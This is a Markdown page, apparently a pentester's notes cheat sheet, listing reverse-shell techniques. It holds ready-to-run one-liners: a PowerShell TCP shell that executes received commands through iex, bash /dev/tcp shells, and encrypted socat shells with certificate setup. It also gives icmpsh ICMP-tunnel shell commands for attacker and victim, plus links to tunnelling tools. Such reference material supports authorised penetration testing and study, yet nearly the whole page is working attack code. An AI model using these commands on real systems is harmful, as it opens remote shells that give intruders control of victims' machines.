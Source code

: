 ```yaml
---
layout: page
title: "# Reverse Shells"
permalink: /shells/reverse_shells/
---
```


# Reverse Shells

## Powershell:

```powershell
#Oneliner:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Bash:

```python
bash -i >& /dev/tcp/192.168.119.191/8888 0>&1

#OR:

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

## SoCat:

```bash
#Reverse Secure:

#Victim:
$socat - OPENSSL:192.168.73.144:8888,verify=0

#Attacker:
$socat -d -d OPENSSL-LISTEN:8888,cert=/opt/Certificates/shell.pem,verify=0 STDOUT

#Creating Certificate:
$openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 364 -out shell.crt

$cat shell.key shell.crt > shell.pem
```

## ICMP (Windows) based shells:

```bash
#Download ICMPSH:
https://github.com/bdamele/icmpsh
#Examples:
https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/
#Attacker:
#Before running icmpsh, we will need to prevent the kernel from replying to ICMP echo requests. Most ICMP tunneling tools will implement mechanisms to synchronize the data stream between the two machines, and the kernel replies may cause unexpected results.
#Add to: /etc/sysctl.conf
net.ipv4.icmp_echo_ignore_all=1
#Reload the settings:
sudo sysctl --system
#Run Server
#sudo ./icmpsh_m.py %ATTACKERIP% %VICTIMIP% <- The Victim IP waits for ICMP Requests from the server
sudo ./icmpsh_m.py 192.168.178.178 192.168.178.100
#Run Client (Windows:
icmpsh.exe -t 192.168.178.178
#A reverse shell is made and RCE is possible. Note - this traffic is NOT encrypted!

ICMPTunnel:
https://github.com/DhavalKapil/icmptunnel

PTunnelNG:
https://github.com/lnslbrty/ptunnel-ng

```

## Other Resources:

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#bash-tcp](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
- [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
